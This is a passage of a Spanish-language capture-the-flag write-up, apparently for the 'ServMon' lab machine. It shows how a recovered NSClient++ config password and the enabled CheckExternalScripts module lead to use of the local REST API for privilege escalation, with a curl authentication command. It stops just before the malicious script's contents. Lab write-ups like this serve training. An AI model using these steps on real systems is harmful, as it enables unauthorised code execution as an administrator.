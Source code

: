 
He borrado parte del texto del archivo para no ocupar mucho espacio, sin embargo he dejado la estructura y todos los módulos que tiene. Lo primero que encontramos es la contraseña

```shel
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

Lo probamos pero en la web pero nos arroja un error 403 debido a  que no tenemos permitido el acceso. Y eso lo podemos verificar en el archivo de configuración donde el único host permitido (allowed hosts) es el mismo server (127.0.0.1).

También encontramos que el CheckExternalScript esta habilitado

```
; CheckExternalScripts - Module used to execute external scripts
CheckExternalScripts = enabled
```

Si deseamos seguir el exploit deberíamos realizar una tunelización por ssh: <https://www.exploit-db.com/exploits/46802> sin embargo este pedía reinicio de la maquina así que decidí  buscar otra forma.

Buscando encontré que este programa tiene una API lo cual nos permite realizar algunas tareas usando CURL. Entonces siguiendo la metodología RTFM (Read The Fucking Manual) encontré la forma de agregar un external script y ejecutarlo. 

Leyendo:<https://docs.nsclient.org/api/rest/>

![1587793711881](C:\Users\Josef\AppData\Roaming\Typora\typora-user-images\1587793711881.png)

Vemos que el usuario por default es 'admin', así que lo probamos con la contraseña encontrada en el archivo de configuración (ew2x6SsGTxjRwXOT) y validamos que podamos acceder a la API.

```shell
nadine@SERVMON C:\Program Files\NSClient++>powershell -c "curl.exe -k -u admin https://127.0.0.1:8443/api"
Enter host password for user 'admin':
{"beta_api":"https://127.0.0.1:8443/api/v1","current_api":"https://127.0.0.1:8443/api/v1","legacy_api":"https://127.0.0.1:8443
/"}
```

Y vemos que si nos responde, después de esto ya era ver la manera de aprovecharlo.

Leyendo: <https://docs.nsclient.org/api/rest/scripts/>

Nos indica como agregar un script, pero hacemos algunas variaciones a nuestro estilo por que no me funcionaba tal cual:

Entonces creamos un script lexsaaaa.bat con el siguiente contenido que establece lo que se ejecutará en el servidor:
